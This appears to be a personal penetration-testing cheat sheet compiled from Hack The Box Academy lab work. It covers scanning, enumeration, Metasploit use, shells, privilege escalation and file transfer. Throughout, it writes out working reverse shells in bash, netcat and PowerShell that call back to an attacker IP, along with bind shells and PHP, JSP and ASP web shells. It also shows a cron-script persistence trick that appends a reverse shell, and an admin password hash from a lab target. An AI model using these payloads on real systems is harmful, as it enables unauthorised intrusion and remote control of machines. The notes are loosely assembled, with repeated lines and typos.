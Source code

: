 # GettingStarted(Complete)

## Basic Tools 
> - **Connect to VPN **  sudo openvpn user.ovpn   
> - **Connect to FTP **  ftp 10.0.0.0   
> - **Connect to SSH **  ssh user@10.0.0.0   


    
## Service Scanning 
> - **Run an nmap script scan on an IP **  nmap -sV -sC -p- 10.0.0.0   
> - **Grab banner of an open port **  netcat 10.10.10.10 22   
> - **List SMB Shares **  smbclient -N -L \\\\10.129.42.253   
> - **Connect to a SMB Share **  smbclient \\\\10.129.42.253\\users
> - **Grab banner of an open port **  netcat 10.10.10.10 22
> - **Grab banner of an open port **  netcat 10.10.10.10 22


   
  
## WEB Enumb
> - **scan web directories** gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt
> - **scan sub directories of a website** gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt
> - **List potential directories** curl 10.10.10.121/robots.txt
> - **grab website banner** curl -IL https://www.inlanefreight.com
> - **List details about webserver/certs** whatweb 10.10.10.121 or whatweb --no-errors 10.10.10.0/24


    

## Exploit Scan
> - **Install exploitdb tool** sudo apt install exploitdb -y
> - **Search for public exploits for a web application** searchsploit openssh 7.2
### Metasploit
Metasploit Framework (MSF) contains exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets
> - **MSF: Start the Metasploit Framework** msfconsole
> - **Search for public exploits in MSF** search exploit eternalblue
> - **Start using an MSF module** use exploit/windows/smb/ms17_010_psexec
> - **Show required options for an MSF module** show options
> - **Set a value for an MSF module option** set RHOSTS 10.10.10.40
> - **Test if the target server is vulnerable** check
> - **Run the exploit on the target server is vulnerable** exploit
     
    

## Using SHells
netcat can be used to connect to any listening port and interact with the service running on that port.
> - **Start a nc listener on a local port (on my computer)** nc -lvnp 1234  or   nc 10.10.10.1 1234
> - **Send a reverse shell from the remote server** bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
> - **Another reverse shell from the remote server** rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
> - **Start a bind shell on the remote server** rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
> - **same as above but with powershell** powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
> - **Connect to a bind shell started on the remote server (on my computer)** nc 10.10.10.1 1234
>
> - **Upgrade shell TTY (1)** python -c 'import pty; pty.spawn("/bin/bash")'
> - **Upgrade shell TTY (2)** ctrl+z then stty raw -echo then fg then enter twice
> - **Create a webshell php file** echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php
> - Apache	/var/www/html/   Nginx	/usr/local/nginx/html/   IIS	c:\inetpub\wwwroot\   XAMPP	C:\xampp\htdocs\
> - **Execute a command on an uploaded webshell** curl http://SERVER_IP:PORT/shell.php?cmd=id



  > whatweb --no-errors 10.10.10.0/24
  # 
  > 
  # install seclists = git clone https://github.com/danielmiessler/SecLists && sudo apt install seclists -y
  # Next, add a DNS Server such as 1.1.1.1 to the /etc/resolv.conf file.
  > 






## NCAT
# netcat can be used to connect to any listening port and interact with the service running on that port.
> ncat ip port 
> nc -nv ip port

## NMAP
# port scanner
> nmap -sV -sC -p- 10.129.42.253
> nmap -sV --open -oA nibbles_initial_scan <ip address>
> whatweb --no-errors 10.10.10.0/24
> nmap -sV --script=banner -p21 10.10.10.0/24
> nmap -sC -sV -p21 10.129.42.253
> nmap --script smb-os-discovery.nse -p445 10.10.10.40
> nmap -A -p445 10.129.42.253

> locate scripts/citrix
> nmap --script <script name> -p<port> <host>
  


  # on host
  > bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
  > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
  > powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
## BIND Shell
  #
  > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
  > python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
> powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
## Once in
  > python -c 'import pty; pty.spawn("/bin/bash")'
  
## WEB SHELLS
Apache	/var/www/html/   Nginx	/usr/local/nginx/html/   IIS	c:\inetpub\wwwroot\   XAMPP	C:\xampp\htdocs\
php = <?php system($_REQUEST["cmd"]); ?>
jsp = <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
asp = <% eval request("cmd") %>
  # eg = echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
  # browser http://SERVER_IP:PORT/shell.php?cmd=id    or curl http://SERVER_IP:PORT/shell.php?cmd=id
  
## Privilege Escalation
# ./linpeas.sh
  > dpkg -l
  > sudo -l
  > sudo -u user /bin/echo Hello World!
  # /etc/crontab     /etc/cron.d      /var/spool/cron/crontabs/root
  
  
## Transfer Files
  # cd /tmp
  > python3 -m http.server 8000
  > wget http://10.10.14.1:8000/linenum.sh
  > curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
  >  scp linenum.sh user@remotehost:/tmp/linenum.sh
  # BASE64
  > base64 file -w 0
  > user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > file
  
##########################################################################################

* File Inclusion / Directory Traversal (HTB Academy)
* Linux Fundermentals (HTB Academy)
* Login Attacks (HTB Academy)
* Metasploit (HTB Academy)
* Nmap (HTB Academy)
* Web Enumeration
* Windows Fundermentals (HTB Academy)


  _______________________
  

nmap -sV --open -oA nibbles_initial_scan <ip address>
nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.190
nc -nv 10.129.42.190 22
nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190 
whatweb 10.129.42.190


gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.246 9443 >/tmp/f"); ?>
nc -lvnp 9443
python -c 'import pty; pty.spawn("/bin/bash")'
 python3 -c 'import pty; pty.spawn("/bin/bash")'


unzip personal.zip
cat monitor.sh
sudo python3 -m http.server 8080
wget http://<your ip>:8080/LinEum.sh
chmod +x LinEnum.sh
./LinEnum.sh


https://github.com/vanhauser-thc/thc-hydra
https://github.com/digininja/CeWL
https://highon.coffee/blog/reverse-shell-cheat-sheet/!

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 9443 >/tmp/f"); ?>
nc -lvnp 9443
navigate to the webfile and should get a hit on the listner as shell
upgrade to nicer shell via which python3 commmand
python -c 'import pty; pty.spawn("/bin/bash")' OR python -c 'import pty; pty.spawn("/bin/bash")' OR python3 -c 'import pty; pty.spawn("/bin/bash")'
to enumerate priv esculations run this while listening - sudo python3 -m http.server 8080
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Back on the target type wget http://<your ip>:8080/LinEum.sh to download the script
Once the script is pulled over, type chmod +x LinEnum.sh to make the script executable and then type ./LinEnum.sh to run it.
modify monitor.py script to add line at the end
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 8443 >/tmp/f' | tee -a monitor.sh


10.129.42.249 target
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
/theme
/data
/backups
{"status":"0","latest":"3.3.16","your_version":"3.3.15","message":"You have an old version - please upgrade"}
10.10.15.24 me
<USR>admin</USR>
<NAME/>
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
<EMAIL>admin@gettingstarted.com</EMAIL>

nmap -sV --open -oA nibbles_initial_scan 10.129.42.249 
nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.249 

nc -nv 10.129.42.249 22
nc -nv 10.129.42.249 80

nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.249
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.249

whatweb 10.129.42.249
gobuster dir -u http://10.129.42.249/data/ --wordlist /usr/share/dirb/wordlists/common.txt

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.129.42.249 4444 >/tmp/f"); ?>
